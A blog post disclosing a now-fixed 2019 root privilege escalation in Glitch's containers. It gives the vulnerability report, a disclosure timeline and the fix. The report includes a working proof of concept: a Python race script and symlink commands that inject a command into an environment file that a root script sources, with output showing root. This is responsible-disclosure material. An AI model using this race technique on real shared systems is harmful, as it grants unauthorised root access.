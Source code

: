 ```yaml
---
date: Mon Aug 10 2020 17:42:18 -0700 (Pacific Daylight Time)
qualitative_time: 
title: Root access on Glitch
previous_teaser: List of salads that you can't put croutons in
previous_first: true
has_highlighting: true
---
```

In 2019, I discovered a way to get root access in the project containers on [Glitch](https://glitch.com/).
This issue is now fixed.

Glitch is a Node.js-focused web development environment and hosting service.
Users normally aren't allowed to have root access, with a staff member describing in a group message to me on their support forum:

> Root access to the container is something we prevent for a number of reasons, security among them.

I reported this finding to the Glitch staff.
At the time, Glitch had been getting rid of the old Fog Creek materials, the instructions to report a security vulnerability along with it.
They had not put up new instructions.

## A copy of the report

Here's a copy of the report I sent to the staff.

### vulnerability info

a big part of the leadup to wetty's user shell is run as root. from top:
```
    8 root      20   0    4240    780    716 S   0.0  0.0   0:00.00      `- runsv wetty
   11 root      20   0     212      4      0 S   0.0  0.0   0:00.00          `- /usr/bin/dumb-init /bin/bash ./run
   13 root      20   0   19696   2992   2764 S   0.0  0.0   0:00.00              `- /bin/bash ./run
   15 root      20   0    4504    656    588 S   0.0  0.0   0:00.00                  `- /bin/sh /opt/nvm/versions/node/v10/bin/wetty --port 1084 --command /etc/service/wetty/+ 
   26 root      20   0 1012088  53248  27044 S   0.0  0.8   0:03.22                      `- /opt/nvm/versions/node/v10/bin/node /opt/nvm/versions/node/v10/bin/../pnpm-global/+ 
24828 root      20   0   19716   3168   2904 S   0.0  0.1   0:00.00                          `- /bin/bash /etc/service/wetty/wetty-command.sh
24833 root      20   0   51004   3308   2900 S   0.0  0.1   0:00.00                              `- su --preserve-environment --login app
24834 app       20   0   19952   3652   3128 S   0.0  0.1   0:00.00                                  `- -su
25475 app       20   0   40424   3396   2908 R   0.0  0.1   0:00.01                                      `- top
```

from `/etc/service/wetty/wetty-command.sh`:
```sh
curl -s localhost:1083/env > /tmp/glitch-project-env 2> /dev/null
set -a && source /tmp/glitch-project-env &> /dev/null && set +a
```

there's a race condition here. we can make `/tmp/glitch-project-env` a symlink to a file we own. then, if we can sneak in a write between the `curl` and the `source`, our modified glitch-project-env will run as root

---

### sample exploitation with dummy payload

in `racer/r.py`:
```py
import os

i = 0
while True:
  os.lseek(3, 0, os.SEEK_SET)
  os.write(3, 'id >/app/my-id.txt # %d ' % i)
  i += 1
```

```sh
ln -s /tmp/ours /tmp/glitch-project-env
python racer/r.py 3>/tmp/ours
# open a new terminal
```

then check results in `/app`:
```
app@...:~ 06:06 
$ ls -l /app
...
-rw-r--r-- 1 root root   39 Apr 27 05:26 my-id.txt
drwxrwxr-x 2 app  app  1024 Apr 27 05:45 racer

app@...:~ 06:09 
$ cat /app/my-id.txt
uid=0(root) gid=0(root) groups=0(root)
```

## Notes

I don't recall why it matters that the attacker put a symlink where the environment file would be written.
Maybe there had been some other code nearby that would fail otherwise.

## Timeline

**2019/04/26** I find this vulnerability.
I reach out to their general support email address.
There is no response.

**2019/04/27** I reach out over group message on their support forum.
There is no response.

**2019/04/30** A staff member C responds, and we work through some ways I might be able submit the report.
In the end, sending the report to the group message works.
I post the report from above.
C tells me:

> I’ll put together some context and get this info back to the rest of the team. I can’t commit to any particular timeline or response, but I’ll make sure we get some eyes on it as soon as possible.

**2019/05/08** I ask if the team has taken a look.
There is no response.

**2019/05/20** I ask if C has put together some context.
There is no response.

**2019/06/05** I ask if any staff still visit the support forum.
C responds that they haven't gotten to this yet.

**2019/11/19** I remember this report and nag them.
There is no response.

**2019/12/02** C responds that they'll get to it this week.

**2020/04/03** I remember this report and nag them.
There is no response.

**2020/04/27** I notice that Glitch now has an official statement directing people to send reports to their general support email address and that a ticket system handles those emails.
I open a ticket for this vulnerability, referencing the group message thread.
There is only an automated response.

**2020/06/05** I complain on their support forum about the lack of response.
Another staff member T shows me how to view my tickets a website, but there is no update to the ticket about this vulnerability.

**2020/07/22** Another staff member P says on a Discord server to send them a private message if a security vulnerability report has not gotten a response.
I message P with a reference to the ticket.
There is no response.

**2020/08/03** I ask on the ticket if I can disclose the vulnerability.

**2020/08/04** T tells me to fllow up with C over the group message thread.
I ask on the group message thread if I can disclose the vulnerability.

**2020/08/05** C tells me to wait until tomorrow for a response.

**2020/08/06** C says they implemented a fix that will be deployed soon.

**2020/08/10** C says the fix should be deployed.

## Glitch's fix

A new version of the `wetty-command.sh` script now uses process substitution instead of a temporary file.

```sh
set -a && source <(curl -s localhost:1083/env) &> /dev/null && set +a
```

## Discussion

### Recommendations

Still a lot of work is done as root, in the "watcher," "wetty," and "ot-storage" programs.
These are thousands of lines of JavaScript code, along with hundreds of megabytes of node_modules.
They might be a good place to look for more vulnerabilities.

I'm not sure how much of all that must run as root.
I haven't looked deeply into those programs, but they as far as I know, they manipulate user-owned files and serve on non-privileged ports.
If Glitch can find the energy to make major changes to the implementation, I'd suggest they minimize the amount of code running as root.

### Support tooling issues

Glitch's support ticket system is a pain to use, although it didn't result in me missing any communications about this vulnerability.
Some magical things about the email headers aren't set up right, and staff responses are classified as spam.
Replying to a ticket sometimes creates a new ticket instead.
Staff members sometimes merge these extraneous replies into existing threads.
Sometimes they don't.
When they merge them, it leaves the extraneous ticket around.
Sometimes staff merge a reply with the wrong ticket.
T explains,

> Within HappyFox (our ticketing platform provider), support request tickets are marked “Closed” after every support team member’s response.
> That way, we are alerted when the person who created the support request responds.

I'm not convinced that this is right.

### Long turnaround

It was long.
C took reponsibility for the delays and reflected on what they and Glitch could have done to address the report more quickly.
I appreciate that Glitch was able to implement a fix quickly when I expressed that I would like to publish it, i.e., in this article.

